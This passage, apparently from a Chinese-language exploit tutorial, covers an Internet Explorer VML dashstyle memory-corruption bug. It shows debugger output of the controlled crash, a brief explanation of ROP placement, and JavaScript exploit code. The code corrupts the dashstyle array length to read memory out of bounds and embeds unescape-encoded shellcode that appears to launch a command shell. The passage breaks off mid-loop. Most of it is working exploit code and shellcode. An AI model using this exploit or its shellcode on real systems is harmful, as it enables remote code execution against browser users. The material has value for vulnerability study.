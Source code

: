 	75934973 50 push eax

	75934974 ff5108 call dword ptr [ecx+8] ds:002b:41414149=????????

	0:005> dd eax

	069ae290 41414141 069615b8 00000001 00000000

	069ae2a0 7b9764f6 88000000 73995504 06961698

	069ae2b0 00000001 00000000 7b9764f5 880098da

### **ROP**

这里布置ROP有两种方法，最常规的就是用堆喷技术，第二种就是因为这个漏洞让我们有了获取任意地址的手段，所以完全可以用跟前面绕过ASLR泄露基址一样的方法，把shellcode赋值给marginLeft，然后泄露出marginLeft的地址，然后根据泄露出来的地址生成rop链，同样的方法将生成的rop链写入marginLefe并泄露出地址。

下面主要是利用这个漏洞来泄露shellcode地址，整体和前面泄露基址的差不多。

	function leak(){

		var vml1 = document.getElementById("vml1");

		for (var i = 0; i < 0x400; i++){

			a[i] = document.getElementById("rect" + i.toString())._vgRuntimeStyle;

		}

		for (var i = 0; i < 0x400; i++){

			a[i].rotation;

			if (i == 0x300) {

				vml1.dashstyle = "1 2 3 4 5 6 7 8 9 10 11 12 13 14 15 16 17 18 19 20 21 22 23 24
				25 26 27 28 29 30 31 32 33 34 35 36 37 38 39 40 41 42 43 44"

			}

		}

		var length_orig = vml1.dashstyle.array.length;

		vml1.dashstyle.array.length = 0 - 1;

		for (var i = 0; i < 0x400; i++){

			marginLeftAddress_orgin = vml1.dashstyle.array.item(0x2E+0x16);

			a[i].marginLeft =
			unescape("%uc933%u8b64%u3041%u408b%u8b0c%u1470%u96ad%u8bad%u1058%u538b%u033c%u8bd3%u7852%ud303%u728b%u0320%u33f3%u41c9%u03ad%u81c3%u4738%u7465%u7550%u81f4%u0478%u6f72%u4163%ueb75%u7881%u6408%u7264%u7565%u8be2%u2472%uf303%u8b66%u4e0c%u8b49%u1c72%uf303%u148b%u038e%u33d3%u53c9%u5152%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u83d2%u0cc4%u5059%u6651%u6cb9%u516c%u7268%u2e74%u6864%u736d%u6376%uff54%u83d0%u10c4%u548b%u0424%uc933%ub951%u6d65%u6162%u8351%u246c%u6103%u6c83%u0224%u6862%u7973%u7473%u5054%ud2ff%uc483%u5510%uec8b%uec83%u3304%ubef6%u6d63%u0064%u7589%u8dfc%ufc75%uff56%u83d0%u08c4%u5a5e%ub95b%u7365%u6173%u8351%u246c%u6103%u5068%u6f72%u6863%u7845%u7469%u5354%ud2ff%uc933%uff51%u5fd0%u5b5e%uc481%u00c0%u0000%uec3b%u81e8%uff6a%u8bff%u5de5%u00c3");

			marginLeftAddress_modify = vml1.dashstyle.array.item(0x2E+0x16);
